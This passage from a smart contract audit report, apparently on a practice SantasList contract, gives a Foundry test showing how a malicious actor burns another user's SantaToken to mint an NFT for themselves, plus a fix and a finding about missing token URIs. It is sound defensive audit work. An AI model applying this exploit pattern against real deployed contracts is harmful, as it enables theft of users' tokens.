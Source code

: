 the Attack Looks Like this:

```javascript
    function testMaliciousActorBurnsSomeoneElseTokensToReceiveNFT() external {
        address maliciousActor = makeAddr("maliciousActor");

        vm.startPrank(santa);
        santasList.checkList(user, SantasList.Status.EXTRA_NICE);
        santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
        vm.stopPrank();

        vm.startPrank(user);
        vm.warp(1_703_500_000);
        santasList.collectPresent();
        vm.stopPrank();

        vm.startPrank(maliciousActor);
        santasList.buyPresent(user);
        vm.stopPrank();

        assertEq(santasList.balanceOf(maliciousActor), 1);
        assertEq(santaToken.balanceOf(user), 0);
    }
```

to Run the Test, Run the Following Command in terminal:

```javascript
    forge test --match-test testMaliciousActorBurnsSomeoneElseTokensToReceiveNFT -vvvv
```

**Recommended mitigation**

burn the `msg.sender` SantaToken's and remove `presentReceiver` parameter:

```diff
+   function buyPresent() external {
+       i_santaToken.burn(msg.sender);
        _mintAndIncrement();
    }
```


### [HIGH-6] We do Not Set TOKEN URI for the given tokenId we mint the User, which results in the msg.sender receiving empty ERC721 token that is Not the Santa NFT.

**Description**

As the Title Says, We do Not Set TOKEN URI for the given tokenId we mint the User in `_mintAndIncrement()` function, which results in the msg.sender receiving empty ERC721 token that is Not the Santa NFT. The NFT we Mint  to User has no properties including description, image or anything.

**Impact**

Since We Do not Set the TokenURI for the Given tokenId, the NFT will have no description, image or anything.
